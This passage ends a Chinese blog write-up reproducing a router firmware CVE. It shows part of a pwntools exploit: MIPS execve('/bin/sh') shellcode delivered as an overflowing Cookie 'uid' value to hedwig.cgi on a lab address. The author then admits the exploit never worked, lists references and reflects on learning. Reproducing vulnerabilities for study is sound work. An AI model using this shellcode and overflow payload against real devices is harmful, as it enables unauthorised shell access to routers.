 ```
 
    lui $t0, 0x6873
    ori $t0, 0x2f6e
    sw $t0, -16($sp)
 
    slti $a3, $zero, 0xFFFF
    sw $a3, -12($sp)
    sw $a3, -4($sp)
 
    addi $a0, $sp, -20
    addi $t0, $sp, -20
    sw $t0, -8($sp)
    addi $a1, $sp, -8
 
    addiu $sp, $sp, -20
 
    slti $a2, $zero, 0xFFFF
    li $v0, 4011
    syscall 0x42424
''')
payload += b'a'*0x18
payload += shellcode
 
url = "http://192.168.188.134:1234/hedwig.cgi"
data = {"winmt" : "pwner"}
headers = {
    "Cookie"        : b"uid=" + payload,
    "Content-Type"  : "application/x-www-form-urlencoded",
    "Content-Length": "11"
}
res = requests.post(url = url, headers = headers, data = data)
print(res)
```

可惜到最后也没打通，还是太菜了……都复现到了最后一步没能成功

![image-20220428094110909](https://s2.loli.net/2022/04/28/Lm1ReY9Khj3M5Op.png)

报错可能擦测需要python3环境才能运行，但是我pwntools安装在python2了，就不再重新装一个了。

### 参考

这里很感谢看雪大佬的文章对我复现这个漏洞有极大的帮助。

1. https://bbs.pediy.com/thread-272212.htm
2. https://bbs.pediy.com/thread-272318.htm#msg_header_h2_3
3. https://bbs.pediy.com/thread-268623.htm

### 总结

复现这个漏洞兜兜转转差不多花了我一周的时间，虽然很可惜，复现了百分之90左右，最后的EXP没能打通，但是重要的是整个学习的过程，此次复现又学到了不少新的知识（比如IDApython中的mipsrop使用、MIPS架构的一些特性、GDB配合pemu的远程调试使用……），也让我巩固了不少固件运行的一些条件（配置ip网络，分解提取固件，固件拷贝，配置启动sh命令……）觉得收获颇丰的，果然靠实践去复现一些CVE踩踩坑是挺好的一种学习路线，过程中是遇到不少令我堪忧的几个问题，好在坚持都搜集到了解决办法，感觉学网安的要学得东西很杂乱，能力不足是家常便饭，还得继续坚持多学新知识，网安不怕能力差的，就怕不想学。现在也接近五月份了，也该找暑期实习了，不好好学习复现一些漏洞还真不好找工作，好在昨天拿到了一份车联网的offer，后面的一个多月可能网车联网方向多学习发展了，继续努力吧,加油！

